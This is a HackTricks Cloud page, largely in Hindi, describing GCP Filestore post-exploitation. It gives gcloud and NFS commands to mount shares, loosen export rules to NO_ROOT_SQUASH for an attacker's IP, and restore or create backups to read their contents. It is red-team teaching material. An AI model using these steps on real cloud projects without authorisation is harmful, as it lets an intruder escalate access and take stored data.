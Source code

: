 # GCP - Filestore Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Filestore

Filestore के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Mount Filestore

एक साझा फ़ाइल सिस्टम **संवेदनशील जानकारी** हो सकता है जो हमलावरों के दृष्टिकोण से दिलचस्प है। Filestore तक पहुँच के साथ, इसे **माउंट करना** संभव है:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

फाइलस्टोर इंस्टेंस का IP पता खोजने के लिए पृष्ठ के एन्यूमरेशन अनुभाग की जांच करें:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### प्रतिबंध हटाएं और अतिरिक्त अनुमतियाँ प्राप्त करें

यदि हमलावर उस IP पते पर नहीं है जिसमें शेयर पर पहुँच है, लेकिन आपके पास इसे संशोधित करने के लिए पर्याप्त अनुमतियाँ हैं, तो प्रतिबंधों को हटाना या उस पर पहुँच प्राप्त करना संभव है। यह आपके IP पते पर अधिक विशेषाधिकार प्रदान करना भी संभव है ताकि शेयर पर प्रशासनिक पहुँच प्राप्त की जा सके:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Restore a backup

यदि एक बैकअप है, तो इसे एक मौजूदा या नए इंस्टेंस में **पुनर्स्थापित** करना संभव है ताकि इसकी **जानकारी सुलभ हो जाए:**
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### एक बैकअप बनाएं और इसे पुनर्स्थापित करें

यदि आपके पास **एक शेयर पर पहुंच नहीं है और आप इसे संशोधित नहीं करना चाहते**, तो **इसका बैकअप बनाना** और **इसे पुनर्स्थापित करना** संभव है जैसा कि पहले उल्लेख किया गया है:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
